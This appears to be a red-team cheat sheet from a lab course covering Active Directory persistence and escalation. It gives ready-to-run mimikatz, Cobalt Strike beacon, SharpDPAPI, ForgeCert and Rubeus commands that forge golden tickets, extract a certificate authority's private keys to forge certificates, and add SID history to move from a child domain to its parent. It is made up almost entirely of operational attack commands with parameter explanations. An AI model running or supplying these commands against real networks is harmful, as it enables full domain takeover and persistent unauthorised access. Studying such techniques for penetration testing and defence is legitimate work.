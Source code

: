 
###### <font style="color:#00b3ff">Golden tickets</font> 
```
- Create a golden ticket:

	mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /ticket:golden.kirbi
```

###### <font style="color:#00b3ff">Forged Certificates (forge a certificate valid for 5 years)</font> 
```
- Once on a CA, SharpDPAPI can extract the private keys:

	beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Debug\SharpDPAPI.exe certificates /machine

- The next step is to build the forged certificate with ForgeCert (after .pfx conversion):
C:\Users\Administrator\Desktop>C:\Tools\ForgeCert\ForgeCert\bin\Debug\ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "password" --Subject "CN=User" --SubjectAltName "Administrator@cyberbotic.io" --NewCertPath fake.pfx --NewCertPassword "password"


- Even though you can specify any SubjectAltName, the user does need to be present in AD.  In this example, the default Administrator account is used.  Then we can simply use Rubeus to request a legitimate TGT with this forged certificate and use it to access the domain controller:

	beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:Administrator /domain:cyberbotic.io /certificate:MIACAQ[...snip...]IEAAAA /password:password /nowrap

```

---

### Forest & Domain Trusts, Parents & Childs

###### <font style="color:#00b3ff">Get domain trust</font> 
```
beacon> powershell Get-DomainTrust
```

###### <font style="color:#00b3ff">Get the SID of a target group in the parent domain (to create a Golden Ticket with SID history)</font> 
```
beacon> powershell Get-DomainGroup -Identity "Domain Admins" -Domain cyberbotic.io -Properties ObjectSid
beacon> powershell Get-DomainController -Domain cyberbotic.io | select Name

	mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /startoffset:-10 /endin:600 /renewmax:10080 /ticket:cyberbotic.kirbi

	/user is the username to impersonate.
	/domain is the current domain.
	/sid is the current domain SID.
	/sids is the SID of the target group to add ourselves to.
	/aes256 is the AES256 key of the current domain's krbtgt account.
	/startoffset sets the start time of the ticket to 10 mins before the current time.
	/endin sets the expiry date for the ticket to 60 mins.
	/renewmax sets how long the ticket can be valid for if renewed.
```
